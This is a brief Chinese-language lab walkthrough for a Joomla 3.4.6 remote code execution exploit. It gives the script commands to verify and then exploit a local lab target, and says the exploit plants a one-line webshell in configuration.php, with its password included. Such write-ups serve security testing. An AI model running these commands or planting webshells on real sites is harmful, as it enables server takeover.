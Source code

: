使用脚本进行验证：显示Vulnerable证明存在漏洞

python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/

漏洞利用
在configuration.php中写入一句话木马,木马连接密码mbvmmqcrhfnsowwnyvhkkwjejbpytgnznswyefystnqbrirvvg

python3 Joomla-3.4.6-RCE.py -t http://192.168.204.129/exploit/Joomla/ --exploit -l 192.168.204.129 -p 8080
